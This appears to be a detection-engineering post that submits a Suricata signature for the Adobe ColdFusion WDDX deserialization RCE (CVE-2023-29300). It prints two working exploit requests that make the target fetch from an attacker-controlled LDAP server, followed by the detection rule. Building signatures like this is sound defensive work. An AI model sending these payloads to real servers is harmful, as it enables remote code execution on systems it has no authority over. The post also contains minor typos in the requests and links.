 # ET Open Submission (Return from PCRE grave)
### May 2nd, 2024
### Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)

### The exploit itself:

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

I was however able to get the LDAP calls to fire on much less.

```
OST /CFIDE/adminapi/accessmanager.cfc?method=foo HTTP/1.1
127.0.0.1
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 387
Content-Type: application/x-www-form-urlencoded

argumentCollection=%3CwddxPacket%20version%3D%271.0%27%3E%3Cheader%2F%3E%3Cdata%3E%3Cstruct%20type%3D%27xcom.sun.rowset.JdbcRowSetImplx%27%3E%3Cvar%20name%3D%27dataSourceName%27%3E%3Cstring%3Eldap%3A%2F%2F192.168.1.144%2Ftest.ser%3C%2Fstring%3E%3C%2Fvar%3E%3Cvar%20name%3D%27autoCommit%27%3E%3Cboolean%20value%3D%27true%27%2F%3E%3C%2Fvar%3E%3C%2Fstruct%3E%3C%2Fdata%3E%3C%2FwddxPacket%3E
```

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; fast_pattern; bsize:59; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_02, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_02;)```


[Job Zip](https://github.com/eatinsundip/Suricata/files/15189851/9dfa93c65d3bbd7d.zip)

[https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d](https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d)


## NOTES
- I am a little rusty and very open to critique
- I plan to get a working LDAP server to host malicious serialized code.
	- I have never attempted RCE with an LDAP server so it's a learning experience.
